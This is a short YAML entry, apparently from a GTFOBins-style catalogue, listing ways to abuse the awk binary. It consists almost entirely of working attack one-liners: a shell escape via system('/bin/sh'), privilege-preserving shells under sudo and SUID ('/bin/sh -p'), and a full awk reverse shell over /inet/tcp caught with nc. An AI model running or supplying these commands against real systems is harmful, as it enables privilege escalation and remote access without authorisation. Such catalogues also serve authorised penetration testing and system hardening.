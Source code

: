 ```yaml
---
functions:
  exec-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh -p")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh -p")}'
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: awk -v RHOST=localhost -v RPORT=8000 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s;}}'
---
```

